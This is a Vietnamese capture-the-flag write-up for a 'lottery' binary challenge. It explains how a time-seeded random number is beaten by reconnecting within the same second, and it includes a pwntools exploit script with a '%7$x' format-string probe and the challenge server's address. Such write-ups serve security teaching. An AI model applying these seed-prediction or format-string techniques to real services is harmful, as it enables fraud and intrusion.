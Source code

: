 **SOLUTION**
hmmm....Bài này lúc đầu mình cũng thấy khá là ngô khoai.

Đầu tiên nó sẽ yêu cầu mình nhập tên với độ dài bằng 10 thông qua hàm:
```sh
fgets(name,10,stdin);
```

Sau đó nó sẽ in ra Hello + name vừa nhập và yêu cầu người chơi nhập 1 số bất kỳ, nếu trùng với số được cộng từ 2 số random của hệ thống thì mình sẽ lấy được flag.

Vấn đề này thì đơn giản hơn nhiều khi chương trình có sử dụng hàm `srand(0)` nhưng ở đây chương trình này sử dụng `srand(time(0))` để gọi 1 số random nên sẽ hơi khó 1 tí.

Vì mình không thể đoán chính xác số ấy được, nên mình sẽ cần leak số ấy ra thôi. Nhưng tiếc là mình hem leak được :((

Vậy thôi,.... mình chơi ăn gian 1 tí. Mình sẽ nhập đại 1 giá trị, sau đó mình bắt giá trị của server in ra sau câu `The lucky number is` để làm giá trị cho lần kết nối sau. Nhưng do mình làm tự động bằng file nên thời gian ko chênh lệch nhiều nên srand(time(0)) của 2 lần sẽ ko thay đổi. Mình nghĩ như vậy. Và xem nào, nó dùng được này....

Đây là file exploit.py của mình

```sh
from pwn import *
temp1 = "1111111"
#s = remote("128.199.234.122",4200)
s = process("./lottery")
s.sendline("%7$x")
s.recvuntil("Hello")
temp = s.recvline()
log.info(">> {}".format(temp))
s.sendline(temp1)
s.recvuntil("The lucky number is")
temp1 = s.recvuntil("\n")
log.info("Value >> {}".format(temp1))
#s =remote("128.199.234.122",4200)
s = process("./lottery")
s.sendline("Hazir")
s.sendline(temp1)
s.interactive()
s.close()
```

Run và hồi hộp chờ thôi nèo... Tadaaaaa `efiensctf{ULTRA_MEGA_SUPER_HUGE_VIETLOT_JACKPOT}`